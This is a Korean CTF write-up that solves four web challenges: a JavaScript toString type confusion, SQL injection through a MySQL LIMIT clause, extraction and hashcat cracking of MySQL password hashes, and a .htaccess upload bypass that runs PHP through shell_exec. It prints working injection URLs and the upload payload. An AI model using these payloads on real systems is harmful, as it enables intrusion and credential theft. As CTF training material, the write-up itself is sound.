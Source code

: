 ```yaml
---
layout: post
comments: false
categories: CTF
---
```


## **Javascript Puzzle**

```python
const express = require('express')

const app = express()
const port = 8000

app.get('/', (req, res) => {
    try {
        const username = req.query.username || 'Guest'
        const output = 'Hello ' + username
        res.send(output)
    }
    catch (error) {
        res.sendFile(__dirname + '/flag.txt')
    }
})

app.listen(port, () => {
    console.log(`Server is running at http://localhost:${port}`)
})
```

'Hello ' + username 연산 전에 username에 대해서 toString을 통한 형변환이 일어난다. 따라서 username.toString을 overwrite해주면 에러가 발생합니다.

```
username[toString]=1
```

## Limited 1

```python
@app.route('/query')
def query():
    try:
        price = float(request.args.get('price') or '0.00')
    except:
        price = 0.0

    price_op = str(request.args.get('price_op') or '>')
    if not re.match(r' ?(=|<|<=|<>|>=|>) ?', price_op):
        return 'price_op must be one of =, <, <=, <>, >=, or > (with an optional space on either side)', 400

    # allow for at most one space on either side
    if len(price_op) > 4:
        return 'price_op too long', 400

    # I'm pretty sure the LIMIT clause cannot be used for an injection
    # with MySQL 9.x
    #
    # This attack works in v5.5 but not later versions
    # https://lightless.me/archives/111.html
    limit = str(request.args.get('limit') or '1')

    query = f"""SELECT /*{FLAG1}*/category, name, price, description FROM Menu WHERE price {price_op} {price} ORDER BY 1 LIMIT {limit}"""
    print('query:', query)

    if ';' in query:
        return 'Sorry, multiple statements are not allowed', 400

    try:
        cur = mysql.connection.cursor()
        cur.execute(query)
        records = cur.fetchall()
        column_names = [desc[0] for desc in cur.description]
        cur.close()
    except Exception as e:
        return str(e), 400

    result = [dict(zip(column_names, row)) for row in records]
    return jsonify(result)

```

sql query를 실행할 때 price_op에 `>/*`, limit 앞부분을 `*/` 로 설정하면 쉽게 sql injection이 가능합니다.

`information_schema.processlist` 를 통해 어떤 쿼리를 실행했는지 확인하여 query 내부의 주석을 볼 수 있습니다.

```
/query?price=11&price_op=>/*&limit=*/100 UNION SELECT 1,2,3,INFO FROM information_schema.processlist
```

## Limited 2

Limited 1과 같은 소스코드의 문제입니다. Flag로 시작하는 table에 있는 값을 보면 되는 문제입니다.

```
/query?price=0&price_op=>/*&limit=*/1 UNION SELECT 1,2,3,table_name FROM information_schema.tables

/query?price=5&price_op=>/*&limit=*/100 UNION SELECT 1,2,3,column_name FROM information_schema.columns WHERE table_name='Flag_843423739'

/query?price=0&price_op=>/*&limit=*/1 UNION SELECT 1,2,3,value FROM Flag_843423739
```

## Limited 3

```sql
-- This password is 13 characters and can be found in rockyou.
-- It is the flag for one of the challenges using this source
-- BUT it needs to be wrapped by wctf{} before submitting.
create user 'flag' identified by 'REDACTED_FLAG';
```

해당 문제의 Mysql은 password를 저장할 때 caching_sha2_password을 사용합니다. 비밀번호가 rockyou에 있는 13글자라는 정보를 통해 bruteforce를 진행했습니다.

```sql
UNION SELECT 1,2,3,
  CONCAT('$mysql',
    LEFT(authentication_string, 6),
    '*',
    INSERT(HEX(SUBSTR(authentication_string, 8)), 41, 0, '*')
  ) AS hash
FROM mysql.user
WHERE plugin = 'caching_sha2_password'
  AND authentication_string NOT LIKE '%INVALIDSALTANDPASSWORD%'
  AND user = 'flag'
```

우선 hash 값을 알기 위해서 위의 쿼리를 사용했습니다.

```
$mysql$A$005*766E4F5E5D03106A4C027233476433535C4B5E20*3865726464724C6E39747276424F484B6B63742E37307966474C58742F4466634E58767371592F70325044
```

위의 값을 토대로 hashcat의 7401 옵션을 이용해서(`-m 7401` = MySQL 8+ `caching_sha2_password` 해시) flag를 구할 수 있었습니다.

```
hashcat -m 7401 -a 0 hashes rockyou-13.txt
```

## **Art Contest**

```php
if (isset($_FILES['fileToUpload'])) {
    $target_file = basename($_FILES["fileToUpload"]["name"]);
    $session_id = session_id();
    $target_dir = "/var/www/html/uploads/$session_id/";
    $target_file_path = $target_dir . $target_file;
    $uploadOk = 1;
    $lastDotPosition = strrpos($target_file, '.');

    // Check if file already exists
    if (file_exists($target_file_path)) {
        echo "Sorry, file already exists.\n";
        $uploadOk = 0;
    }
    
    // Check file size
    if ($_FILES["fileToUpload"]["size"] > 50000) {
        echo "Sorry, your file is too large.\n";
        $uploadOk = 0;
    }

    // If the file contains no dot, evaluate just the filename
    if ($lastDotPosition == false) {
        $filename = substr($target_file, 0, $lastDotPosition);
        $extension = '';
    } else {
        $filename = substr($target_file, 0, $lastDotPosition);
        $extension = substr($target_file, $lastDotPosition + 1);
    }

    // Ensure that the extension is a txt file
    if ($extension !== '' && $extension !== 'txt') {
        echo "Sorry, only .txt extensions are allowed.\n";
        $uploadOk = 0;
    }
    
    if (!(preg_match('/^[a-f0-9]{32}$/', $session_id))) {
    	echo "Sorry, that is not a valid session ID.\n";
        $uploadOk = 0;
    }

    // Check if $uploadOk is set to 0 by an error
    if ($uploadOk == 0) {
        echo "Sorry, your file was not uploaded.\n";
    } else {
        // If everything is ok, try to upload the file
        if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file_path)) {
            echo "The file " . htmlspecialchars(basename($_FILES["fileToUpload"]["name"])) . " has been uploaded.";
        } else {
            echo "Sorry, there was an error uploading your file.";
        }
    }

    $old_path = getcwd();
    chdir($target_dir);
    // make unreadable - the proper way
    shell_exec('chmod -- 000 *');
    chdir($old_path);
}
```

php를 통해 만든 파일을 업로드할 수 있는 사이트입니다. `../` 를 삽입할 수 있는 방법이 없을까 고민했었지만 불가능했습니다. 

문제에서는 업로드 이후 `chmod -- 000 *` 명령어를 통해서 업로드한 파일들을 읽을 수 없도록 하는데 `*` 를 사용하게 되면 파일명이 `.` 으로 시작하는 파일들에 대한 처리가 이루어지지 않습니다.

그리고 `if ($lastDotPosition == false)`  조건문을 사용하는 부분이 있는데 dot의 위치가 제일 처음이라면 `$lastDotPosition` 이 0이 되어 `$lastDotPosition == false` 가 true가 됩니다. 

따라서 `.htaccess`  파일을 사용해 txt 파일을 php 파일처럼 사용하게 할 수 있어 flag를 읽어올 수 있습니다.

- .htaccess

```
AddType application/x-httpd-php .txt
```

- .getflag.txt

```php
<?php
header("Content-Type: text/plain");

echo "Path: " . realpath('../../get_flag') . "\n";
echo "Exists: " . (file_exists('../../get_flag') ? 'Yes' : 'No') . "\n";
echo "Output:\n";

$output = shell_exec('cd /var/www/html && ./get_flag 2>&1');

echo $output;
```